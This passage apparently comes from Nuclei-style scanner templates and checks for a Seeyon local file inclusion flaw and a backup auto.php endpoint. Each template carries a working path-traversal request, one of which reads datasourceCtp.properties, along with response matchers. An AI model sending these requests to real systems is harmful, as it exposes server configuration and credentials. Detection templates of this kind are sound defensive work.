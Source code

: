 ### URL

- {{BaseURL}}/backup/auto.php?password=NzbwpQSdbY06Dngnoteo2wdgiekm7j4N&path=../backup/auto.php

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - body
- words
  1. NzbwpQSdbY06Dngnoteo2wdgiekm7j4N
  2. display_errors
- condition - and

---

# Seeyon - Local File Inclusion

## Description

- Seeyon is vulnerable to local file inclusion.
- severity - medium
- tags - lfi,cnvd,cnvd2020,seeyon

## Requests

- Method - GET

### URL

- {{BaseURL}}/seeyon/webmail.do?method=doDownloadAtt&filename=index.jsp&filePath=../conf/datasourceCtp.properties

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - header
- words
  1. application/x-msdownload
- condition - and

**Type - word**
